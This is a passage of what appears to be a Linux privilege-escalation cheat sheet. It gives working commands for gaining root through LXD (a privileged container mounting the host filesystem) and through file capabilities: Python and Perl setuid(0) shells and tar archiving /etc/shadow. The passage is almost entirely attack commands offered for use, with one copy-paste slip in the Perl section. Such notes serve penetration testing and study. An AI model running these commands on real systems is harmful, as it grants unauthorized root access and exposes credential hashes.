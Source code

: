 - Upload `lxd.tar.xz` and `rootfs.squashfs` to the vulnerable server
- Add the image on the vulnerable server
```
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list
```
- Second command is only if you want to confim the imported image is present
- Create a container and add the root path
```
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
- Execute the container
```
lxc start privesc
lxc exec privesc /bin/sh
cd /mnt/root
```
- `/mnt/root` is where the file system is mounted.
##### Errors-on the vulnerable server
- If you recieve an `Failed container creation: No storage pool found. Please create a new storage pool.`
- You need to initialize lxd before using it
```
lxd init
```
- Read the options and use the defaults
### Capabilities
- Search your whole file-system recursively with the following command:
````
getcap -r / 2>/dev/null
````
#### Python
- Looking for:
````
/home/demo/python3 = cap_setuid+ep
````
- Escalate Privlages 
````
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
````
#### Perl
- Check for Perl:
````
which perl
````
- Looking for:
````
/home/demo/python3 = cap_setuid+ep
````
- Escalate
````
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
````
#### Tar
- Check for tar:
````
which tar
````
- Looking For:
````
/home/demo/tar = cap dac read search+ep
````
- Tar the shadow:
````
./tar cvf shadow.tar /etc/shadow
````